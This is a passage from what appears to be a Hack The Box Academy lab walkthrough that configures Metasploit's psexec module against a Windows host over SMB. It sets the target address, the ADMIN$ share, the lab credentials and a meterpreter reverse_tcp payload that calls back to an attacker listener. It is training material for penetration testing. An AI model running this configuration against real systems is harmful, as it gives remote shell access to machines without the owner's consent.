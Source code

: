 ### Step 5: Examining Module Options

```bash
msf6 exploit(windows/smb/psexec) > options
```

**Module Options:**
```
Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as
```

**Payload Options:**
```
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

### Step 6: Configuring the Exploit

**Required Settings:**
```bash
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71

msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$

msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!

msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student

msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```
